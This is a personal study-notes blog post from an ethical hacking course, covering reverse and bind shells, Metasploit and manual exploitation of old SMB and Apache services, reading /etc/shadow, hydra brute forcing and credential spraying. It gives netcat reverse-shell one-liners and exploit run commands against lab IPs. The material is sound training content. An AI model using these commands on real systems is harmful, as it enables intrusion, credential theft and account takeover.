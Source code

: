 ```yaml
---
layout: post
title:  "TCM_security_EthicalHacking Part 8"
author: haran
categories: [TCM , Cyber Security]
image: post_img/2021/01/01_1/tcm.png
beforetoc: "Exploitation Basics"
toc: true
---
```


Exploitation Basics

Exploitation Basics

Reverse Shells vs Bind Shells

Reverse shell

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/1.jpg)

Target connecting to us.

(Kali)Attack Box = nc -nvlp 4444 (Listening)
 Target Box      = nc 192.168.1.2 4444 -e /bin/bash  

BindShell

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/2.jpg)

(Kali)Attack Box = nc 192.168.1.2 4444
 Target Box      = nc -lvp 4444 -e /bin/bash (Listening)
 
 
Staged vs Non-Staged Payloads


Staged vs Non-Staged Payloads

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/3.jpg)

Payload = the code we are going to run as exploit
          attack and get a shell on victim.
          
Non-staged = send payloads at once
             larger in size won't always work
             Example = windows/meterpreter_reverse_tcp
             
staged     = send payloads stage by stage.
             can be less stable
             windows/meterpreter/reverse_tcp
             
Gaining Root with Metasploit

smb exploitation with metaspolit

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/4.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/5.jpg)

commands

search trans2open
use 1
options
set rhosts 192.168.8.167
set rport 139
show targets
run/exploit

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/6.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/7.jpg)

set payload /   /  /

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/8.jpg)

Manual Exploitation

 https://github.com/heltonWernik/OpenLuck
 
 Usage

 This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated
 
 1.Download OpenFuck.c

 git clone https://github.com/heltonWernik/OpenFuck.git

 1.Install ssl-dev library

 apt-get install libssl-dev

 1.It's Compile Time
 
 gcc -o OpenFuck OpenFuck.c -lcrypto

 1.Running the Exploit

 ./OpenFuck

 1.See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option ./OpenFuck 0x6a [Target Ip] [port] -c 40
 
 for example:

 ./OpenFuck 0x6a 192.168.80.145 443 -c 40
 
![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/9.jpg)
 
![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/10.jpg)
 
 cat /etc/passwd
 cat /etc/shadow
 
![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/11.jpg)
 
 
 
Brute Force Attacks

Hydra

-l = user
-P = password list
-t = thread
-V = verbosity 

hydra -l root  -P /usr/share/wordlists/metasploit/adobe_top100_pass.txt

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/12.jpg)
![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/13.jpg)

Using Metaspolit

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/14.jpg)
![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/15.jpg)
![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/16.jpg)
![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/17.jpg)
![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/18.jpg)





Credential Spraying and Password Stuffing

What is cedential stuffing?

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/19.jpg)

foxy proxy


![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/20.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/21.jpg)



sniper = sniper uses one parameter
pitch fork = multi parameter payload

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/22.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_8/23.jpg)

password spraying


unknown username 
known password